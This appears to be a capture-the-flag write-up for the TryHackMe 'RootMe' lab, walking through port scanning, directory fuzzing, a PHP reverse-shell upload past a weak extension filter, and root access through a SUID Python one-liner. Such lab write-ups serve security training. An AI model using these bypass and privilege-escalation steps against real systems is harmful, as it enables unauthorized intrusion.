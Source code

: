 # RootMe
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuzzing
* Reverse Shell 
* Weak Upload Filtering
* SUID

Tools used
--
* nmap
* ffuf
* find
* python

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.74.128
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.74.128 -p- -T5 -vvv

<SNIP>
Initiating SYN Stealth Scan at 00:00
Scanning 10.10.74.128 [65535 ports]
Discovered open port 22/tcp on 10.10.74.128
Discovered open port 80/tcp on 10.10.74.128
<SNIP>
```
Let's try to fuzz the web application:
```
ffuf -u http://10.10.74.128/FFUF -H 'Host: 10.10.74.128' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.
5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/p
ayloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 38ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 38ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 37ms]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 41ms]
:: Progress: [87649/87649] :: Job [1/1] :: 948 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
```
By visiting `/panel` directory, we can see an upload form. On the upload form there is a weak filter. You can upload only reverse shell with the extensions php1, php2, php3, php4, php5, php6, php7, php8, php9.

Phase 2: Foothold
--
Once you uploaded a reverse shell, you can call it by visiting:
```
http://10.10.74.128/uploads/rev.php5
```
Get a semi-interactive shell by executing:
```
script /dev/null -c bash
```
The user flag is in the `/var/www/user.txt` file.

Phase 3: Privilege Escalation
--
Let's search for files with SUID permission:
```
find / -perm -u=s -type f 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
The weird file is `/usr/bin/python`. By looking at the https://gtfobins.github.io/gtfobins/python/ link, let's run:
```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
We got root privileges:
```
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
```